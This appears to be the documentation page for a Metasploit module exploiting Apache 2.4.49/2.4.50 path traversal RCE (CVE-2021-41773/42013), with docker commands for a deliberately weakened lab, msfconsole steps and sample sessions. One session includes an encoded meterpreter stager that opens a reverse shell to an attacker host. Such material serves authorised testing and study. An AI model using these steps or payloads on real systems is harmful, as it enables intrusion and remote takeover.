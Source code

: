 This module exploit an unauthenticated RCE vulnerability which exists in Apache version 2.4.49 (CVE-2021-41773)
and 2.4.50 (CVE-2021-42013).

A flaw was found in a change made to path normalization in Apache HTTP Server 2.4.49. An attacker could use a
path traversal attack to map URLs to files outside the expected document root.

If files outside of the document root are not protected by "require all denied" these requests can succeed.

Additionally this flaw could leak the source of interpreted files like CGI scripts.

If CGI scripts are also enabled for these aliased pathes, this could allow for remote code execution.

It was found that the fix for CVE-2021-41773 in Apache HTTP Server 2.4.50 was insufficient (CVE-2021-42013).

## Vulnerable Application

This issue is known to be exploited in the wild. This issue only affects Apache 2.4.49 and Apache 2.4.50 and
not earlier versions.

### Make your lab

```
docker run -dit --name CVE-2021-41773 -p 8080:80 -v /opt/apache2.4.49:/usr/local/apache2/htdocs httpd:2.4.49
docker exec -it CVE-2021-41773 sed -i "0,/denied/s/AllowOverride none/# AllowOverride None/" conf/httpd.conf
docker exec -it CVE-2021-41773 sed -i "0,/denied/s/denied/granted/" conf/httpd.conf
docker exec -it CVE-2021-41773 sed -i -E "s|all denied|all granted|g; s|#(.* cgid_.*)|\1|g" conf/httpd.conf
docker stop CVE-2021-41773
docker start CVE-2021-41773
```

--or--

```
docker run -dit --name CVE-2021-42013 -p 8080:80 -v /opt/apache2.4.50:/usr/local/apache2/htdocs httpd:2.4.50
docker exec -it CVE-2021-42013 sed -i "0,/denied/s/AllowOverride none/# AllowOverride None/" conf/httpd.conf
docker exec -it CVE-2021-42013 sed -i "0,/denied/s/denied/granted/" conf/httpd.conf
docker exec -it CVE-2021-42013 sed -i -E "s|all denied|all granted|g; s|#(.* cgid_.*)|\1|g" conf/httpd.conf
docker stop CVE-2021-42013
docker start CVE-2021-42013
```

## Verification Steps

1. Start `msfconsole`
2. `use exploit/multi/http/apache_normalize_path_rce`
3. `set RHOSTS [IP]`
4. `set LHOST [IP]`
5. `run`

## Options

**DEPTH**

Depth for path traversal. Default: 5

**TARGETURI**

Base path. Default: `/cgi-bin`

## Scenarios

### Command Line Interface

```
msf6 exploit(multi/http/apache_normalize_path_rce) > use exploit/multi/http/apache_normalize_path_rce
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/apache_normalize_path_rce) > set target 1
target => 1
msf6 exploit(multi/http/apache_normalize_path_rce) > setg RHOSTS 172.20.4.11
RHOSTS => 172.20.4.11
msf6 exploit(multi/http/apache_normalize_path_rce) > setg rport 8080
rport => 8080
msf6 exploit(multi/http/apache_normalize_path_rce) > setg ssl false
ssl => false
msf6 exploit(multi/http/apache_normalize_path_rce) > setg verbose true
verbose => true
msf6 exploit(multi/http/apache_normalize_path_rce) > set cmd uname -a
cmd => uname -a
msf6 exploit(multi/http/apache_normalize_path_rce) > run

[+] uname -a
[*] Using auxiliary/scanner/http/apache_normalize_path as check
[+] http://172.20.4.11:8080 - The target is vulnerable to CVE-2021-42013 (mod_cgi enabled).
[*] Scanned 1 of 1 hosts (100% complete)
[*] http://172.20.4.11:8080 - Attempt to exploit for CVE-2021-42013
[*] http://172.20.4.11:8080 - Generated payload: uname -a
[!] http://172.20.4.11:8080 - Dumping command output in response
Linux 184ef33f9859 5.14.0-1-amd64 #1 SMP Debian 5.14.6-3 (2021-09-28) x86_64 GNU/Linux

msf6 exploit(multi/http/apache_normalize_path_rce) > 
```

### Meterpreter

```
msf6 exploit(multi/http/apache_normalize_path_rce) > use exploit/multi/http/apache_normalize_path_rce
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/apache_normalize_path_rce) > setg RHOSTS 172.20.4.11
RHOSTS => 172.20.4.11
msf6 exploit(multi/http/apache_normalize_path_rce) > setg rport 8080
rport => 8080
msf6 exploit(multi/http/apache_normalize_path_rce) > setg ssl false
ssl => false
msf6 exploit(multi/http/apache_normalize_path_rce) > setg verbose true
verbose => true
msf6 exploit(multi/http/apache_normalize_path_rce) > set lhost 172.20.7.36
lhost => 172.20.7.36
msf6 exploit(multi/http/apache_normalize_path_rce) > run

[*] Started reverse TCP handler on 172.20.7.36:4444
[*] Using auxiliary/scanner/http/apache_normalize_path as check
[+] http://172.20.4.11:8080 - The target is vulnerable to CVE-2021-42013 (mod_cgi enabled).
[*] Scanned 1 of 1 hosts (100% complete)
[*] http://172.20.4.11:8080 - Attempt to exploit for CVE-2021-42013
[*] http://172.20.4.11:8080 - Sending linux/x64/meterpreter/reverse_tcp command payload
[*] http://172.20.4.11:8080 - Generated command payload: echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAABAAAAAAAAAAEAAAAHAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAA+gAAAAAAAAB8AQAAAAAAAAAQAAAAAAAASDH/aglYmbYQSInWTTHJaiJBWrIHDwVIhcB4UWoKQVlQailYmWoCX2oBXg8FSIXAeDtIl0i5AgARXKwUByRRSInmahBaaipYDwVZSIXAeSVJ/8l0GFdqI1hqAGoFSInnSDH2DwVZWV9IhcB5x2o8WGoBXw8FXmp+Wg8FSIXAeO3/5g== | base64 -d > /tmp/PJaT; chmod +x /tmp/PJaT; /tmp/PJaT; rm -f /tmp/PJaT
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3012548 bytes) to 172.20.4.11
[*] Meterpreter session 1 opened (172.20.7.36:4444 -> 172.20.4.11:48540) at 2021-10-08 13:58:13 +0400
[!] This exploit may require manual cleanup of '/tmp/PJaT' on the target

meterpreter >
```

## References

  1. <https://httpd.apache.org/security/vulnerabilities_24.html>
  2. <https://github.com/RootUp/PersonalStuff/blob/master/http-vuln-cve-2021-41773.nse>
  3. <https://github.com/projectdiscovery/nuclei-templates/blob/master/vulnerabilities/apache/apache-httpd-rce.yaml>
  4. <https://github.com/projectdiscovery/nuclei-templates/commit/9384dd235ec5107f423d930ac80055f2ce2bff74>
  5. <https://attackerkb.com/topics/1RltOPCYqE/cve-2021-41773/rapid7-analysis>
